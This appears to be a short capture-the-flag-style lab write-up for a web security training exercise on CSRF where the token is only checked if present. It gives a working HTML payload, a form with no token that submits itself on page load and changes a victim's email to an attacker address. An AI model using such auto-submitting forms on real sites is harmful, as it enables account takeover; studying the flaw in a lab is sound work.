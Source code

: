 
# Lab: CSRF where token validation depends on token being present

If the post parameter "csrf" is not present in the request, the application don't check the CSRF token.

## payload 

```html

<form id="mon-formulaire" name="change-email-form" action="https://MYLAB.web-security-academy.net/my-account/change-email" method="POST">               
<input required type="email" name="email" value="tokenIsNotPresent@evil.com">
</form>

<script>
    let formulaire = document.getElementById("mon-formulaire");
    formulaire.submit()

</script>
```

